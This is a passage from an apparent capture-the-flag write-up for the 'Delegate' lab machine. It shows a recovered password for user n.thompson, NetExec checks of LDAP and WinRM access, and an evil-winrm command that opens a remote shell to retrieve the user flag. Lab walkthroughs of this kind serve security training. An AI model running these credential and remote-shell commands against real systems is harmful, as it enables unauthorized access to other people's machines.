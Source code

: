 We have N.Thompson’s password as **KALEB_2341**

Lets verify it using NetExec.

```bash
nxc ldap delegate.vl -u 'n.thompson' -p 'KALEB_2341'
```

![image.png](/assets/images/Delegate_VL/image%2016.png)

### Shell as N.Thompson

Lets check for winrm access

```bash
nxc winrm delegate.vl -u 'n.thompson' -p 'KALEB_2341'
```

![image.png](/assets/images/Delegate_VL/image%2017.png)

Lets get a shell on the Box and grab the user.txt

```bash
evil-winrm -i delegate.vl -u 'n.thompson' -p 'KALEB_2341'
```

![image.png](/assets/images/Delegate_VL/image%2018.png)

Submitting the user.txt flag and moving forward with the privilege escalation.
